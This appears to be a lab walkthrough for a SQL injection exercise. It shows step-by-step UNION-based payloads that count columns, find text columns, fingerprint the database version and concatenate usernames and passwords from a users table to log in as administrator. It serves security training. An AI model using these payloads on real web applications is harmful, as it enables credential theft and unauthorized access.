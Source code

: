 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234063923-b0b6fd9b-bcfe-4402-8744-51b531964880.png)

## Solution :

**String concatenation**

You can concatenate together multiple strings to make a single string.

|    Name    	| Command                                               	|
|:----------:	|-------------------------------------------------------	|
|  MICROSOFT 	| 'foo'+'bar'                                           	|
| POSTgreSQL 	| 'foo'\|\|'bar'                                        	|
| MYSQL      	| 'foo' 'bar' [Note the space between the two strings]  	|
|            	| CONCAT('foo','bar')                                   	|
| ORACLE     	| 'foo'\| \|'bar'                                       	|

![image](https://user-images.githubusercontent.com/67383098/234099775-aff90330-5a21-4f1c-b6dc-9ef2c8876828.png)


Query made - 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

#### Determine the number of columns -

**ORDER BY 3** returns an error, which means there are 2 columns that is retreived by the web app from the db.


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 3 --
```

![image](https://user-images.githubusercontent.com/67383098/234100850-1429bcfe-1266-4a8f-8b53-2d71ad49587f.png)

#### Determine which columns contain text data -

**1st column**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'A',NULL --
```

![image](https://user-images.githubusercontent.com/67383098/234101123-9ccf4bb2-f157-46c3-a922-980a8431d801.png)

**2nd Column**

This column contains text data 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,'A' --
```

![image](https://user-images.githubusercontent.com/67383098/234103514-41c451e2-917f-4ac9-8f4f-b7a9c9217f4a.png)


#### Determine the type of database -

![image](https://user-images.githubusercontent.com/67383098/234103785-85a81ddb-49ca-4be0-8dbf-ef42516379e4.png)

Since we know 2nd column is containing text data, we can try to use version command of each database system to identify the type of database present in the backend.

**ORACLE**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,banner FROM v$version --
```

![image](https://user-images.githubusercontent.com/67383098/234104531-16e2f879-e4c4-4b72-92c2-0baf47edcf77.png)

500 - SERVER ERROR

**Microsoft**


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,@@version --
```

![image](https://user-images.githubusercontent.com/67383098/234104810-7e4797ff-8afc-4eb2-a2ce-2d8329508b15.png)

500 - Server Error

> NOTE - Syntax for findng version is the same for both Microsoft and MYSQL



**PostgreSQL**



```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,version() --
```

![image](https://user-images.githubusercontent.com/67383098/234105240-04daa44f-2c9f-4e79-8974-5038f94bb8c5.png)

We can confirm that this is an POSTgreSQL db in backend.

![image](https://user-images.githubusercontent.com/67383098/234105811-4f3c1b1f-51c9-4dcd-8963-053ba9c25f4f.png)

#### Retreive multiple values in single column -

For POSTgreSQL , the syntax for string concatination is `'foo'||'bar'`

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,username||'-'||password FROM users --
```

![image](https://user-images.githubusercontent.com/67383098/234107431-6b69680b-ac33-4eb6-96c6-3edf2624ebcb.png)

We got all the usernames & passwords,

![image](https://user-images.githubusercontent.com/67383098/234107604-f2526cb0-8b70-448d-b647-1c7b2c9788dd.png)

Now we can login as administrator

![image](https://user-images.githubusercontent.com/67383098/234107784-09bfaa9b-1505-4a11-abab-4550aae622e9.png)

































